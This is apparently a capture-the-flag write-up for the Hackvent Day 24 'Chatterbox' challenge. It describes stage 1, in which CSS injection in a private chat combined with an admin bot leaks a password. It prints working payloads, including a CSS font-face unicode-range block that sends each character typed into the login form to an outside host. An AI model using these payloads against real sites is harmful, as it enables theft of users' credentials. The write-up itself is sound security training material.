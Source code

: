 Day 24: Chatterbox
==================
> *... likes to talk*
> 
> I love to chat secure and private.
> 
> For this I mostly use http://challenges.hackvent.hacking-lab.com:1087.
> 
> It's easy to create a private chat and start chatting without a registration.
> Hint #1: the admin is a lazy clicker boy and only likes \<a href="...">\</a>
> Hint #2: As a passionate designer, the admin loves different fonts.
> Hint #3: For step 2: I'd better be my own CA.
> Hint #4: For step 2: It's all about the state
> Hint #5: For step 3: python programmers don't need {{ ninjas }}

This challenge was divided in 3 stages that are described separately here.

## Stage 1
In this part, a web application is presented with a public chat, the possibility to create private chats with custom CSS, a feedback form and a login form. It was bot possible to achieve XSS, every input was encodede properly when displayed. However, the custom CSS was stored and reused as far as the session was kept. This allowed for CSS injection, then you would only need someone to visit your private chat to get the malicious CSS. This was possible thanks to the feedback form.

A first step to confirm that was to create a private chat with this custom CSS:
```css
body {
	background-color: powderblue;
	background-image: url("http://wiki.photochrome.ch/test02.png");
}
```

Then one can send the feedback form to with the following message:
```html
<a href="http://challenges.hackvent.hacking-lab.com:1087/private_chat.php?secret=PrivateChatUniqueIdentifier">link</a>
```

A tool in the background would then visit the link and a connection was made to my web server, proving that it works. Then, it is assumed that the bot will enter the password in the login form and, based on <http://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html>, we inject the following CSS:
```css
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?A); unicode-range:U+0041; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?B); unicode-range:U+0042; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?C); unicode-range:U+0043; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?D); unicode-range:U+0044; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?E); unicode-range:U+0045; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?F); unicode-range:U+0046; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?G); unicode-range:U+0047; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?H); unicode-range:U+0048; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?I); unicode-range:U+0049; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?J); unicode-range:U+004A; }
@font-face{ font-family:poc; src: url(https://wiki.photochrome.ch/HACKVENT24/?K); unicode-range:U+004B; }
```